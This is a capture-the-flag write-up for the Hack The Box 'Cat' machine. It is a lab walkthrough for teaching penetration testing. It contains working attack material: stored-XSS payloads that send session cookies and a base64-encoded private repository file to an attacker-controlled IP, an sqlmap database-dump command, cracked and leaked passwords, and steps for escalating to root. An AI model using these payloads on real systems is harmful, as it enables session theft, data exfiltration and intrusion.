

# Cat

Difficulty: Medium
OS: Linux
Category: Offensive


### Reconnaissance

Using `nmap -sCV [target] -oN cat-scans` 

```python
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/7/gBYFf93Ljst5b58XeNKd53hjhC57SgmM9qFvMACECVK0r/Z11ho0Z2xy6i9R5dX2G/HAlIfcu6i2QD9lILOnBmSaHZ22HCjjQKzSbbrnlcIcaEZiE011qtkVmtCd2e5zeVUltA9WCD69pco7BM29OU7FlnMN0iRlF8u962CaRnD4jni/zuiG5C2fcrTHWBxc/RIRELrfJpS3AjJCgEptaa7fsH/XfmOHEkNwOL0ZK0/tdbutmcwWf9dDjV6opyg4IK73UNIJSSak0UXHcCpv0GduF3fep3hmjEwkBgTg/EeZO1IekGssI7yCr0VxvJVz/Gav+snOZ/A1inA5EMqYHGK07B41+0rZo+EZZNbuxlNw/YLQAGuC5tOHt896wZ9tnFeqp3CpFdm2rPGUtFW0jogdda1pRmRy5CNQTPDd6kdtdrZYKqHIWfURmzqva7byzQ1YPjhI22cQ49M79A0yf4yOCPrGlNNzeNJkeZM/LU6p7rNJKxE9CuBAEoyh0=
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEmL+UFD1eC5+aMAOZGipV3cuvXzPFlhqtKj7yVlVwXFN92zXioVTMYVBaivGHf3xmPFInqiVmvsOy3w4TsRja4=
|   256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEOCpb672fivSz3OLXzut3bkFzO4l6xH57aWuSu4RikE
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://cat.htb/
Service Info: Host: cat.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Add `cat.htb` to `/etc/hosts` 

This is the index of the website



First, we need to fuzz the web with `dirsearch -u http://cat/htb/ -x 403,400,404 -o dir.fuzz` 


It seems there are a lot of git directories. We can visit each and every one of it but it will waste our time. We will use a tool that will extract these git directories [GitTools](https://github.com/internetwache/GitTools)

First we need to dump these git directories `./gitdumper.sh [http://cat.htb/](http://cat.htb/) git-out` 

```python
gitdumper http://cat.htb/.git/ git-out
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########

[*] Destination folder does not exist
[+] Creating git-out/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/8c/2c2701eb4e3c9a42162cfb7b681b6166287fd5
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/c9/e281ffb3f5431800332021326ba5e97aeb2764
[+] Downloaded: objects/56/03bb235ee634e1d7914def967c26f9dd0963bb
[+] Downloaded: objects/64/d98c5af736de120e17eff23b17e22aad668718
[+] Downloaded: objects/31/e87489c5f8160f895e941d00087bea94f21315
[+] Downloaded: objects/0c/be0133fb00b13165bd7318e42e17f322daac7f
[+] Downloaded: objects/6f/ae98c9ae65a9ecbf37e821e7bafb48bcdac2bc
[+] Downloaded: objects/91/92afa265e9e73f533227e4f118f882615d3640
[+] Downloaded: objects/0f/fa90ae01a4f353aa2f6b2de03c212943412222
[+] Downloaded: objects/b8/7b8c6317f8e419dac2c3ce3517a6c93b235028
[+] Downloaded: objects/26/bd62c92bcf4415f2b82514bbbac83936c53cb5
[+] Downloaded: objects/38/660821153b31dbbee89396eacf974c095ab0dc
[+] Downloaded: objects/58/62718ef94b524f3e36627e6f2eae1e3570a7f4
[+] Downloaded: objects/b7/df8d295f9356332f9619ae5ecec3230a880ef2
[+] Downloaded: objects/88/12266cb97013f416c175f9a9fa08aae524c92a
[+] Downloaded: objects/cf/8166a8873d413e6afd88fa03305880e795a2c6
[+] Downloaded: objects/9a/dbf70baf0e260d84d9c8666a0460e75e8be4a8
[+] Downloaded: objects/48/21d0cd8fecc8c3579be5735b1aab69f1637c86
[+] Downloaded: objects/7b/a662bf012ce71d0db9e86c80386b7ae0a54ea1
[+] Downloaded: objects/9b/e1a76f22449a7876a712d34dc092f477169c36
[+] Downloaded: objects/09/7745b30047ab3d3e6e0c5239c2dfd5cac308a5
```

Then extract it with `./gitextractor git-out git-extract` 

```python
gitextractor git-out git-extract
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/accept_cat.php
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/admin.php
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/config.php
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/contest.php
[+] Found folder: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/css
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/css/styles.css
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/delete_cat.php
[+] Found folder: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/img
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/img/cat1.jpg
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/img/cat2.png
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/img/cat3.webp
[+] Found folder: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/img_winners
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/img_winners/cat1.jpg
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/img_winners/cat2.png
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/img_winners/cat3.webp
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/index.php
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/join.php
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/logout.php
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/view_cat.php
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/vote.php
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/winners.php
[+] Found folder: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/winners
[+] Found file: /home/kali/Documents/HTB/season7/Cat/git-extract/0-8c2c2701eb4e3c9a42162cfb7b681b6166287fd5/winners/cat_report_20240831_173129.php 
```

Now that the directories and files have been extracted. Let’s inspect the files we’ll start with `join.php` 


The code does not have sanitization, has a weak password encryption, then writes to database directly based on the SQL query. Let’s look at another file `admin.php` 


This page is only accessible by an admin named axel, since we don’t know its password. Let’s try to look for another solution.

Another interesting file is `accept_cat.php` 


The user input is passed through the `catName` parameter without any filtration and is directly used in SQL queries, and this is only accessible by admin user.

### Exploitation

Based on the code review, the website is vulnerable to a `Stored XSS` since there are no input filtration from the registration `join.php.` Let’s try to get the admin’s cookie by doing a bounce XSS, we’ll setup a python server so that the cookie session will be sent there.

Use the following payload as your `username` register at `join.php`

```python
PAYLOAD
<script>document.location='http://10.10.xx.xx:4444/?c='+document.cookie;</script>
```

Login, and go to contest. Upload any `jpeg, jpg, or png` format. The cookie session will be sent to your python server


Get the admin cookie session, and replace the cookie session in your browser


Now you can access `/admin.php` What you will do next is to upload a photo again using the same process.

Then, prepare BurpSuite to intercept the request, then accept your uploaded photo


Upon interception, save this request for SQLi later


You can use `sqlmap` to dump all the info

```python
sqlmap -r request -p catName --level=5 --tables --dump --risk=3 --dbms=sqlite --threads=10
```

Then you’ll get these accounts with hashes


Try to crack the password of rosa, then ssh to it `ssh rosa@cat.htb` 

```python
rosa:soyunaprincesarosa
```

We cannot run `linpeas` as rosa since she cannot run `sudo` command. We need to get the password of the account `axel` at `/var/log/apache2/access.log | grep axel` 


Now exit the current ssh, then ssh as axel `ssh axel@drip.htb.` Then get the `user.txt` flag


### Privilege Escalation

Upon exploring there’s an interesting note we can find at `/var/mail/axel` 


Do `netstat -tuln` to get the ports that are running. There is a `Gitea` web service running on port 3000. We just need to port forward this to our own machine. Exit your current ssh then, ssh back with axel using `ssh -L 3000:127.0.0.1:3000 axel@cat.htb` 

Access Gitea web service at `localhost:3000` then login with *axel’s credentials*.

Since Gitea’s version is:


There’s an existing exploit about it in `exploit-db` But for me I just use searchsploit so that I won’t visit exploit-db anymore.


The exploit is as follows:

> Vulnerability Description
> 
> 
> Gitea 1.22.0 is vulnerable to a Stored Cross-Site Scripting (XSS) vulnerability. This vulnerability allows an attacker to inject malicious scripts that get stored on the server and executed in the context of another user's session.
> 
> ## Steps to Reproduce
> 
> 1. Log in to the application.
> 2. Create a new repository or modify an existing repository by clicking the Settings button from the `$username/$repo_name/settings` endpoint.
> 3. In the Description field, input the following payload:
>     
>     <a href=javascript:alert()>XSS test</a>
>     
> 4. Save the changes.
> 5. Upon clicking the repository description, the payload was successfully injected in the Description field. By clicking on the message, an alert box will appear, indicating the execution of the injected script.

Since we’re logged in as axel. Let’s create a repository, name it anything.

The python server that we setup earlier let’s use that. Our goal is to XSS at `http://localhost:3000/administrator/Employee-management/` the same process we did earlier for our foothold.

Make a Gitea repository, then put this XSS payload on your description

```python
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.xx.xx:4444/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

Then, on the ssh of axel, send this command

```python
echo "check repo http://localhost:3000/axel/repo-name" | sendmail jobert@cat.htb
```

Check your python server for any data reflected


Decode this URL and you’ll get the following

```python
<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
?>
```

We get the password for `admin` . On the ssh of axel, do `sudo su` then input the following password as seen above.

Then you can get the `root.txt` flag

